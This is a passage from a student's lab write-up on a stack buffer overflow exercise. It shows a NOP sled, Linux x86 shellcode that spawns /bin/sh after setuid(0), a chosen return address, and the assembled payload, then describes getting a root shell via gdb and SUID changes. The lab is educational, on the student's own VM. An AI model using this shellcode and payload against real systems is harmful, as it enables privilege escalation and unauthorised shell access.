 	\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
	```
- The shell code:
	```
	\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
	```
- The memory location that we want to jump to:
	```
	\x10\xf4\xff\xbf
	```
- I selected such memory location just because and it does not contain `\x00`  byte which will be interpreted as a null terminator. Also as you may notice bytes are written in a Little Endian format
	![[Pasted image 20250422100927.png]]
- The final result for an input is:
	```
	\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x10\xf4\xff\xbf
	```
- Now let's finally run it using `gdb`:
	![[Pasted image 20250422102603.png]]
- And we see that our exploit actually worked!
	![[Pasted image 20250422102654.png]]
### 15.
> [!Task Description]
> Make sure that you get the root shell on your virtual machine.
- As I described in task 12 we can gain root access only if the program was run by the root or it is owned by the root and has SUID bit $=0$. In my case I ran it under my user with no SUID bit or ownership changed.
	![[Pasted image 20250424051707.png]]
- I tried to change SUID and ownership but it was not worked without GDB (see bonus task).
	![[Pasted image 20250424050345.png]]
- With GDB it will not work since GDB itself is not running under the root and does not have SUID. I found several StackOverflow answers ([answer 1](https://stackoverflow.com/questions/61304114/does-gdb-have-a-userid) and [answer 2](https://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs)) that "*the SUID bit on an executable has no effect when the program is run in a debugger*" for the sake of security!
	![[Pasted image 20250424051326.png]]
	![[Pasted image 20250424063012.png]]
- The only way I could came up with no using `sudo` is to make SUID $=0$ and change owner for both executables, `gdb` and `task3`. I did for the `task3` so, that's why I actually changed it for `gdb`.
	![[Pasted image 20250424052038.png]]
- Afterwards, I tried again and it worked!
	![[Pasted image 20250424052644.png]]
### Bonus
>[!Task Description]
>Answer to the question: "It is possible that sometimes with the above binary shell is launched under gdb, but if you just run the program, it crashes with segfault. Explain why this is happening.
- It is absolutely possible and it is what happened to me